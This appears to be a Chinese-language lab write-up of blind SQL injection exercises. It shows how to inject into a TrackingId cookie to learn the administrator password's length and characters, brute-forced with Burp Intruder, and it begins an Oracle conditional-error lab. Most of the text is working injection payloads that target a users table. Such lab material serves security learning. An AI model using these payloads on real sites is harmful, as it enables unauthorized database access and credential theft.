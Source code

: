 ```sqlite
TrackingId='KWpIaXfvVvktP2NS' and (SELECT username FROM users WHERE username='administrator' and LENGTH(password)>1 )='administrator'--
```

查询密码字符串的长度，一直尝试最后查询到秘密长度是20

```sqlite
TrackingId='KWpIaXfvVvktP2NS' and (SELECT substring(password,1,1) FROM users WHERE username='administrator')='a'--
```

* substring(string,start_position,length)

用注入查询密码的字符串

使用intruder进行爆破

使用两个payload，一个是位置，一个是对应字符

![](https://pic.imgdb.cn/item/674a9f3fd0e0a243d4db5f24.png)

![](https://pic.imgdb.cn/item/674a9f14d0e0a243d4db5f1a.png)

最后用筛选器筛选出有welcome的响应，最后排序获得密码

![](https://pic.imgdb.cn/item/674a9e97d0e0a243d4db5f07.png)

#### 实验：带有条件错误的盲 SQL 注入

这个实验的数据库是Oracle，以为这个网站没有上一题那样有特征，但是这个网站会报错，在输入的sql有问题时网页会报错，依靠这个来进行注入

```sql
TrackingId=SLfBtZlwJyQshwRg'
```

最开始的时候这个是会报错的

```sql
TrackingId=SLfBtZlwJyQshwRg''
```

封装上''号才行，数据库会把这个识别会一个合法的空字符串

```sql
TrackingId=SLfBtZlwJyQshwRg'||(SELECT '' FROM dual)||'
```

这个后面的查询后加入到这个字符串中，验证了可以进行sql查询

```sqlite
TrackingId=SLfBtZlwJyQshwRg'||(SELECT '' FROM users WHERE rownum = 1)||'
```

查询是否存在users表，后面的rownum确保返回一行，不影响输出

```sqlite
TrackingId=SLfBtZlwJyQshwRg'||(SELECT '' FROM users WHERE username = 'administrator')||'
```

判断有无administrator这个字段，没有的话网页会报错
